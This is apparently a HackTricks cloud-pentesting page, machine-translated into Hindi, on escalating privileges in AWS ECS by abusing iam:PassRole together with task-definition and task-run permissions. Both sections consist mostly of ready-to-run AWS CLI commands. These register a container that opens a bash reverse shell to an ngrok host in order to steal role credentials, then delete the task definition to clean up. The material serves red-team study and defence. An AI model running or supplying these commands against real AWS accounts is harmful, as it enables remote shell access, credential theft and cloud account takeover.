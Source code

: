 # AWS - ECS विशेषाधिकार उन्नयन

<details><summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS रेड टीम एक्सपर्ट)</strong></a><strong> के साथ!</strong></summary></details>

## ECS

{% content-ref url="../aws-services/aws-ecs-enum.md" %}
[aws-ecs-enum.md](../aws-services/aws-ecs-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `ecs:RegisterTaskDefinition`, `ecs:RunTask`

ECS में `iam:PassRole`, `ecs:RegisterTaskDefinition` और `ecs:RunTask` अनुमति का दुरुपयोग करने वाला एक हमलाविश एक नया टास्क परिभाषा बना सकता है जिसमें एक दुर्भाग्यपूर्ण कंटेनर होता है जो मेटाडेटा क्रेडेंशियल्स को चुरा लेता है और इसे **चलाता है**।
```bash
# Generate task definition with rev shell
aws ecs register-task-definition --family iam_exfiltration \
--task-role-arn arn:aws:iam::947247140022:role/ecsTaskExecutionRole \
--network-mode "awsvpc" \
--cpu 256 --memory 512\
--requires-compatibilities "[\"FARGATE\"]" \
--container-definitions "[{\"name\":\"exfil_creds\",\"image\":\"python:latest\",\"entryPoint\":[\"sh\", \"-c\"],\"command\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/0.tcp.ngrok.io/14280 0>&1\\\"\"]}]"

# Run task definition
aws ecs run-task --task-definition iam_exfiltration \
--cluster arn:aws:ecs:eu-west-1:947247140022:cluster/API \
--launch-type FARGATE \
--network-configuration "{\"awsvpcConfiguration\":{\"assignPublicIp\": \"ENABLED\", \"subnets\":[\"subnet-e282f9b8\"]}}"

# Delete task definition
## You need to remove all the versions (:1 is enough if you just created one)
aws ecs deregister-task-definition --task-definition iam_exfiltration:1
```
**संभावित प्रभाव:** एक विभिन्न ECS भूमिका में सीधा प्रिविलेज उन्नति।

### `iam:PassRole`, `ecs:RegisterTaskDefinition`, `ecs:StartTask`

पिछले उदाहरण की तरह एक हमलावर **`iam:PassRole`, `ecs:RegisterTaskDefinition`, `ecs:StartTask`** अनुमतियों का दुरुपयोग करते हुए ECS में एक नया कार्य परिभाषा बना सकता है जिसमें एक दुराचारी कंटेनर होता है जो मेटाडेटा क्रेडेंशियल्स चुरा लेता है और इसे चलाता है।\
हालांकि, इस मामले में, एक कंटेनर इंस्टेंस को दुराचारी कार्य परिभाषा चलाने के लिए आवश्यक है।
```bash
# Generate task definition with rev shell
aws ecs register-task-definition --family iam_exfiltration \
--task-role-arn arn:aws:iam::947247140022:role/ecsTaskExecutionRole \
--network-mode "awsvpc" \
--cpu 256 --memory 512\
--container-definitions "[{\"name\":\"exfil_creds\",\"image\":\"python:latest\",\"entryPoint\":[\"sh\", \"-c\"],\"command\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/0.tcp.ngrok.io/14280 0>&1\\\"\"]}]"

aws ecs start-task --task-definition iam_exfiltration \
--container-instances <instance_id>

# Delete task definition
## You need to remove all the versions (:1 is enough if you just created one)
aws ecs deregister-task-definition --task-definition iam_exfiltration:1
```